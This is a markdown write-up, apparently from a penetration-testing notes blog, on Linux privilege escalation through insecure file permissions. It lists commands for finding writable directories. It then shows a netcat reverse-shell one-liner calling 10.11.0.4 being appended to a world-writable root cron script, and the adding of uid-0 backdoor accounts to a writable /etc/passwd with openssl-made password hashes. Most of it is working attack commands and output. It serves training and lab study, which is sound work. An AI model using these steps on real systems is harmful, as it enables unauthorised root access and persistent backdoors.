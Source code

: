 ```yaml
---
description: >-
  Insecure File Permissions
title: Insecure File Permissions              # Add title here
date: 2022-11-09 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Linux - Insecure File Permissions]                     # Change Templates to Writeup
tags: [file transfer, insecure file permissions, linux privesc]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Writable and executable file
In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. Useful commands are:
```bash
find / -perm -0002 -type d 2>/dev/null
find / -perm -0020 -type d 2>/dev/null
```

On a Linux system, the cron time-based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

For the purpose of this example, we will SSH to our dedicated Debian client. In a previous section, we showed where to look on the filesystem for installed cron jobs on a target system. We could also inspect the cron log file (/var/log/cron.log) for running cron jobs:

```bash
student@debian:~$ grep "CRON" /var/log/cron.log
Jan27 15:55:26 victim cron[719]: (CRON) INFO (pidfile fd = 3)
Jan27 15:55:26 victim cron[719]: (CRON) INFO (Running @reboot jobs)
...
Jan27 17:45:01 victim CRON[2615]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:50:01 victim CRON[2631]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:55:01 victim CRON[2656]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 18:00:01 victim CRON[2671]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
```

No that we know the location of the script, we can inspect its contents and permissions.

```bash
student@debian:~$ cat /var/scripts/user_backups.sh
#!/bin/bash

cp -rf /home/student/ /var/backups/student/

student@debian:~$ ls -lah /var/scripts/user_backups.sh 
-rwxrwxrw- 1 root root 52 ian 27 17:02 /var/scripts/user_backups.sh
```

Since an unprivileged user can modify the contents of the backup script, we can edit it and add a reverse shell one-line. If our plan works, we should receive a root-level reverse shell on our attacking machine after, at most, a five minute period.

```bash
student@debian:/var/scripts$ echo >> user_backups.sh 

student@debian:/var/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh

student@debian:/var/scripts$ cat user_backups.sh
#!/bin/bash

cp -rf /home/student/ /var/backups/student/


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
```

### /etc/passwd

If the /etc/passwd file has writable permission we can add a line to /etc/passwd using the appropriate format:

```bash
student@debian:~$ openssl passwd evil
AK24fcSx2Il3I

student@debian:~$ echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd

student@debian:~$ su root2
Password: evil

root@debian:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

Secondary Option:
```bash
openssl passwd -1 -salt doom doom
    
echo 'doom:$1$doom$m/meYVrO7ZsSmCo1/p4v..:0:0:Hacker:/root:/bin/bash' >> /etc/passwd
```